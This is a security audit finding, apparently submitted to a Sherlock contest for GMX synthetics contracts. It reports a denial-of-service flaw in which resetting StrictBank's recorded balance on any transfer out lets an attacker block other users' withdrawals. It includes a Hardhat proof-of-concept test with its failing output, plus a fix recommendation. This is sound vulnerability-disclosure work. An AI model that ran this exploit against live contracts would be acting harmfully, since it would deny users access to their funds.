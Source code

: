 J4de

high

# `StrictBank` contract may be attacked by DOS

## Summary

`StrictBank` contract may be attacked by DOS

## Vulnerability Detail

```solidity
    // @dev records a token transfer into the contract
    // @param token the token to record the transfer for
    // @return the amount of tokens transferred in
    function recordTransferIn(address token) external onlyController returns (uint256) {
        return _recordTransferIn(token);
    }

    // @dev records a token transfer into the contract
    // @param token the token to record the transfer for
    // @return the amount of tokens transferred in
    function _recordTransferIn(address token) internal returns (uint256) {
        uint256 prevBalance = tokenBalances[token];
        uint256 nextBalance = IERC20(token).balanceOf(address(this));
        tokenBalances[token] = nextBalance;

        console.log("StrictBank _recordTransferIn return: %d", nextBalance - prevBalance);
        return nextBalance - prevBalance;
    }
```

The `recordTransferIn` function is used to record the number of transfers in a period of time. Sometimes it is used to determine whether the balance of the vault is sufficient. The calculation logic is `IERC20(token).balanceOf(address(this)) - tokenBalances[token]`.

```solidity
    function createWithdrawal(
        DataStore dataStore,
        EventEmitter eventEmitter,
        WithdrawalVault withdrawalVault,
        address account,
        CreateWithdrawalParams memory params
    ) external returns (bytes32) {
        address wnt = TokenUtils.wnt(dataStore);
        uint256 wntAmount = withdrawalVault.recordTransferIn(wnt); // <----- (1) here

        if (wntAmount < params.executionFee) {
            revert InsufficientWntAmount(wntAmount, params.executionFee);
        }
```

For example, the `createWithdrawal` function above uses `recordTransferIn` to make judgments.

```solidity
    // @dev update the internal balance after tokens have been transferred out
    // this is called from the Bank contract
    // @param token the token that was transferred out
    function _afterTransferOut(address token) internal override {
        tokenBalances[token] = IERC20(token).balanceOf(address(this));
        console.log("StrictBank _afterTransferOut tokenBalances[token]: %d", tokenBalances[token]);
    }
```

The problem is that `tokenBalances[token]` will be reset whenever the bank transfers out. The attacker can use some interfaces to trigger a small transfer to reset `tokenBalances[token]`. At this time, if there is no new transfer to the bank, the value returned by recordTransferIn will be 0. Cause some businesses that depend on the bank to be attacked by DOS.

## Impact

Cause some businesses that depend on the bank to be attacked by DOS, the attacker can continuously trigger (or monitor the memory and trigger before the user calls) to cause continuous DOS attacks.

I think even a brief DOS is a very serious problem for exchanges.

```solidity
    function createWithdrawal(
        DataStore dataStore,
        EventEmitter eventEmitter,
        WithdrawalVault withdrawalVault,
        address account,
        CreateWithdrawalParams memory params
    ) external returns (bytes32) {
        address wnt = TokenUtils.wnt(dataStore);
        uint256 wntAmount = withdrawalVault.recordTransferIn(wnt);

        if (wntAmount < params.executionFee) {
            revert InsufficientWntAmount(wntAmount, params.executionFee); // <----- (1) here
        }
```

Take the createWithdrawal business as an example, this judgment will continue to throw errors.

Here is my POC:

```js
  it("J4de audit test 0001", async () => {
    // simulate withdrawalVault remaining WNT is 100 WNT
    console.log("[*] simulate withdrawalVault remaining WNT is 100 WNT");
    await exchangeRouter.connect(user0).sendWnt(withdrawalVault.address, ethers.utils.parseEther('100'),
      {value: ethers.utils.parseEther('100')});

    // user1 (attacker) cost 0.00000001ETH to trigger _afterTransferOut once
    console.log("[*] user1 (attacker) cost 0.00000001ETH to trigger _afterTransferOut once");
    await exchangeRouter.connect(user1).multicall(
      [
        exchangeRouter.interface.encodeFunctionData("createWithdrawal", [
          {
            receiver: user1.address,
            callbackContract: user1.address,
            market: ethUsdMarket.marketToken,
            longTokenSwapPath: [],
            shortTokenSwapPath: [],
            marketTokenAmount: 700,
            minLongTokenAmount: 800,
            minShortTokenAmount: 900,
            shouldUnwrapNativeToken: true,
            executionFee: ethers.utils.parseEther('0.00000001'),
            callbackGasLimit: "200000",
          },
        ]),
      ],
      { value: ethers.utils.parseEther('0.00000001') }
    );

    // simulate the normal use of createWithdrawal by ordinary users
    console.log("[*] simulate the normal use of createWithdrawal by ordinary users");
    await exchangeRouter.connect(user2).multicall(
      [
        exchangeRouter.interface.encodeFunctionData("createWithdrawal", [
          {
            receiver: user2.address,
            callbackContract: user2.address,
            market: ethUsdMarket.marketToken,
            longTokenSwapPath: [],
            shortTokenSwapPath: [],
            marketTokenAmount: 700,
            minLongTokenAmount: 800,
            minShortTokenAmount: 900,
            shouldUnwrapNativeToken: true,
            executionFee: ethers.utils.parseEther('1'),
            callbackGasLimit: "200000",
          },
        ]),
      ],
      { value: ethers.utils.parseEther('1') }
    );
  });
```

Insert the above use case into the `ExchangeRouter.ts` file. The result of the operation is as follows:

```bash
J4de@J4de:~/gmx-synthetics$ npx hardhat test --grep "J4de audit test 0001"


  ExchangeRouter
[*] simulate withdrawalVault remaining WNT is 100 WNT
[*] user1 (attacker) cost 0.00000001ETH to trigger _afterTransferOut once
[*] simulate the normal use of createWithdrawal by ordinary users
    1) J4de audit test 0001


  0 passing (15s)
  1 failing

  1) ExchangeRouter
       J4de audit test 0001:
     Error: VM Exception while processing transaction: reverted with custom error 'InsufficientWntAmount(0, 1000000000000000000)'
    at WithdrawalUtils.executeWithdrawal (contracts/withdrawal/WithdrawalUtils.sol:197)
    at WithdrawalUtils.createWithdrawal (contracts/withdrawal/WithdrawalUtils.sol:110)
    at WithdrawalHandler.createWithdrawal (contracts/exchange/WithdrawalHandler.sol:52)
    at ExchangeRouter.createWithdrawal (contracts/router/ExchangeRouter.sol:147)
    at ExchangeRouter.multicall (contracts/utils/PayableMulticall.sol:22)
    at ExchangeRouter.revertWithParsedMessage (contracts/utils/ErrorUtils.sol:45)
    at ExchangeRouter.multicall (contracts/utils/PayableMulticall.sol:25)
    at processTicksAndRejections (node:internal/process/task_queues:95:5)
    at runNextTicks (node:internal/process/task_queues:64:3)
    at listOnTimeout (node:internal/timers:533:9)
    at processTimers (node:internal/timers:507:7)
    at async HardhatNode._mineBlockWithPendingTxs (node_modules/hardhat/src/internal/hardhat-network/provider/node.ts:1805:23)
    at async HardhatNode.mineBlock (node_modules/hardhat/src/internal/hardhat-network/provider/node.ts:494:16)
    at async EthModule._sendTransactionAndReturnHash (node_modules/hardhat/src/internal/hardhat-network/provider/modules/eth.ts:1522:18)

```

PS: I added the following patch to the code, but I think this is caused by the lack of perfect testing, and it will not affect the actual utilization effect.

```diff
    function handleExcessExecutionFee(
        DataStore dataStore,
        StrictBank bank,
        uint256 wntAmount,
        uint256 executionFee
    ) internal {
        uint256 excessWntAmount = wntAmount - executionFee;
        if (excessWntAmount > 0) {
-           address holdingAddress = dataStore.getAddress(Keys.HOLDING_ACCOUNT);
+           address holdingAddress = address(1);
            if (holdingAddress == address(0)) {
                revert EmptyHoldingAddress();
            }
```

## Code Snippet

https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/bank/StrictBank.sol#L29-L52

## Tool used

Manual Review

## Recommendation

It is recommended not to use the transferred amount over a period of time as the bank's available amount.